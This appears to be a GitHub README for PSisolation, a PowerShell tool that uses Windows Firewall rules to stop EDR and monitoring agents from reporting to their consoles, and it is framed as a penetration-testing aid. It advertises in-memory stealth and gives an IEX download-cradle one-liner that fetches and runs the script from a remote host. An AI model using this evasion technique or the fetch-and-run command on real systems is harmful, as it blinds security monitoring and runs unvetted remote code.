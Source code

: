 # PSisolation

## Overview
PS-Isolation is a specialized tool designed to prevent EDR (Endpoint Detection and Response) and monitoring processes from communicating with their consoles. By leveraging Windows Defender Firewall rules and PowerShell automation, this script dynamically identifies and blocks network traffic for specific monitoring agents and processes.

## Key Features
- Automated Detection: Identifies EDR and monitoring tools running on the system based on predefined and customizable keywords.
- Dynamic Firewall Rules: Implements outbound traffic filtering for detected processes, preventing telemetry from reaching monitoring consoles.
- Customizable rule : Choose to block a specific processes.
- Stealth : Operates entirely in PowerShell, which you can import in memory without touching disk, ensuring minimal system footprint.
- Simple Cleanup: Quickly revert all custom rules and restore normal operations with a single command.

## Use Cases
- Isolate specific processes or tools to prevent them from reporting telemetry during engagements.
- Test EDR visibility and response.
- Enumerate potential exclusions on system without triggering alerts

## Important Notes
- Educational Purposes Only: This tool is intended for research, penetration testing engagements, and educational purposes        
- Requires Administrative Privileges to create rules

## Getting Started

- Import the script in memory from a remote HTTP server 

``IEX(New-Object Net.WebClient).downloadString('http://xxx.xxx.xxx/PSisolation.ps1')``

- Block outgoing traffic by running directly

``Block-MonitoringProc``

or a specific process you want with : 

``Block-SpecificProcessTraffic``

